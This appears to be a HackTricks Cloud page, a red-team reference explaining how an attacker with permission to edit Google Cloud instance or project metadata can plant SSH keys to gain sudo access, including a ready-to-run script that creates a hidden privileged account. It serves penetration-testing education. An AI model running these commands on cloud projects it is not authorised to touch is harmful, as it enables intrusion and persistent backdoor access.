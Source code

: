 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **significant security risks if an attacker gains the necessary permissions**.

#### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **regularly check** the instance metadata endpoint for **updates to the authorized SSH public keys**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **integrated into the local system**. The key will be added into `~/.ssh/authorized_keys` file of an **existing user or potentially creating a new user with `sudo` privileges**, depending on the key's format. And the attacker will be able to compromise the host.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
   *   Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

       ```bash
       gcloud compute instances describe [INSTANCE] --zone [ZONE]
       ```
   * Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.
2. **Prepare a Text File for SSH Key Metadata:**
   * Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
   *   Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

       ```bash
       ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
       ```
   * Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.
4. **Update the Instance's SSH Key Metadata:**
   *   Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

       ```bash
       gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
       ```
5. **Access the Instance Using the New SSH Key:**
   *   Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

       ```bash
       ssh -i ./key alice@localhost
       sudo id
       ```

#### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:

```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```

#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

It's possible to broaden the reach of SSH access to multiple Virtual Machines (VMs) in a cloud environment by **applying SSH keys at the project level**. This approach allows SSH access to any instance within the project that hasn't explicitly blocked project-wide SSH keys. Here's a summarized guide:

1. **Apply SSH Keys at the Project Level:**
   *   Use the `gcloud compute project-info add-metadata` command to add SSH keys from `meta.txt` to the project's metadata. This action ensures that the SSH keys are recognized across all VMs in the project, unless a VM has the "Block project-wide SSH keys" option enabled.

       ```bash
       gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
       ```
2. **SSH into Instances Using Project-Wide Keys:**
   * With project-wide SSH keys in place, you can SSH into any instance within the project. Instances that do not block project-wide keys will accept the SSH key, granting access.
   * A direct method to SSH into an instance is using the `gcloud compute ssh [INSTANCE]` command. This command uses your current username and the SSH keys set at the project level to attempt access.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
